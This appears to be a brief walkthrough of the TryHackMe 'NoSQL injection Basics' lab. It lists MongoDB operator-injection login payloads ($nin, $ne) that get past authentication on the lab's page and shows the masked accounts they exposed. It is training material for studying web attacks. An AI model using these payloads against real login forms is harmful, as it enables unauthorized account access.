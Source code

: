 ### 25-Mar-24-Mon

[TryHackMe | NoSQL injection Basics](https://tryhackme.com/r/room/nosqlinjectiontutorial)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/36585103-29cd-4bca-934e-d0e6e2ac2e10)

http://10.10.195.200/sekr3tPl4ce.php

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/0d56800a-04b3-4b88-b437-a8a9922d7770)

```
User:	admin
Password:	************
Full Name:	
email:	admin@nosql.int
```

```
user[$nin][]=admin&pass[$ne]=test&remember=on
```



```
user[$nin][]=admin&user[$nin][]=test&pass[$ne]=test&remember=on
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/406c2334-d76a-4378-8ef3-2573f7efbbe5)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/d457d48c-aafa-4502-92b4-6d7471cebbd6)

```
User:	pedro
Password:	************
Full Name:	
email:	pcollins@nosql.int
```

